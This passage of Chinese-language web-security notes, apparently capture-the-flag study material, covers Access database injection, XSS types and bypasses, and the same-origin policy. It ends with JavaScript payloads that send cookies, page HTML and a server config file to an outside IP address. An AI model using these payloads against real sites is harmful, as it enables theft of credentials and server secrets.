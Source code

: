Access 是以单文件，mdb 格式，以表的形式存在，所以数据库也就只有一个文件，只能靠暴力猜解。

> Access  ->  表名  ->  列名  ->  数据



## XSS

类型：

+   简单存储型 xss 盲打管理员后台
+   各种浏览器 auditor 绕过
+   富文本过滤黑白名单绕过
+   CSP 绕过
+   Flash xss
+   AngularJS 客户端模板 xss

工具：

+   hackbar

+   xss 平台
+   swf decompiler
+   flasm
+   doswf(swf加密)
+   Crypt Flow(swf加密)

思路：

+   简单的xss，未作任何过滤，直接利用xss平台盲打管理员cookie
+   过滤标签，尝试各种绕过方法
+   存在安全策略csp等，尝试相应的绕过方法
+   逆向 .swf 文件，审计源码，构造 xss payload

### 知识点

#### 同源策略

同源策略限制了不同源之间如何进行资源交互，是用于隔离潜在恶意文件的重要安全机制。

何为同源？

+ 协议相同（http/https）
+ host 相同
+ 端口相同

#### JS 常用操作

```javascript
// 拿 HTML 源码
btoa(document.body.innerHTML)

// 构造 Ajax 发送请求，返回对应请求结果
var x=new XMLHttpRequest();
x.onreadystatechange=function() {
    if (x.readyState==4 && x.status==200) {
        document.location='http://47.101.220.241:9999/?code='+btoa(x.responseText);
    }
}
x.open("POST","request.php",true);
x.setRequestHeader("Content-type","application/x-www-form-urlencoded");
x.send("url=file:///var/www/html/config.php");

// 带 cookie
document.location='http://47.101.220.241:8001?cookie'+document.cookie

// 带文件
```